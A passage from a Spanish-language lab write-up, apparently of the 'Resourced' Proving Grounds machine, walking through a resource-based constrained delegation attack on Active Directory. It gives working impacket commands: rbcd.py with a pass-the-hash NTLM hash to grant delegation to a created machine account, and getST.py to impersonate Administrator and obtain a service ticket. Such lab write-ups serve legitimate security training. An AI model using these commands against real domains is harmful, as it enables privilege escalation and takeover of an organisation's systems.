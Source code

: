 Comprobamos que se creó correctamente. 

<p align="center">
<img src="/assets/images/pg-writeup-resourced/Pasted image 20250225154725.png">
</p>

Con esta cuenta agregada, ahora necesitamos un script de Python para ayudarnos a administrar los derechos de delegación. Tomemos una copia de [rbcd.py](https://github.com/fortra/impacket/blob/master/examples/rbcd.py) y usémosla para configurar [msDS-AllowedToActOnBehalfOfOtherIdentity](https://learn.microsoft.com/es-es/windows/win32/adschema/a-msds-allowedtoactonbehalfofotheridentity) en nuestra nueva cuenta de máquina.

```bash
python3 rbcd.py -dc-ip 192.168.182.175 -t RESOURCEDC -f 'tester' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced.local\\L.Livingstone
```

<p align="center">
<img src="/assets/images/pg-writeup-resourced/Pasted image 20250225155314.png">
</p>

Ahora necesitamos obtener el ticket de servicio del `administrador`. Podemos hacer esto usando `impacket-getST` con nuestra cuenta de máquina privilegiada.

```bash
getST.py -spn cifs/resourcedc.resourced.local resourced/tester\$:'StrongPassword123' -impersonate Administrator -dc-ip 192.168.182.175
```

Esto guardó el ticket en nuestro host Kali como `Administrator.ccache`. Necesitamos exportar una nueva variable de entorno llamada `KRB5CCNAME` con la ubicación de este archivo.
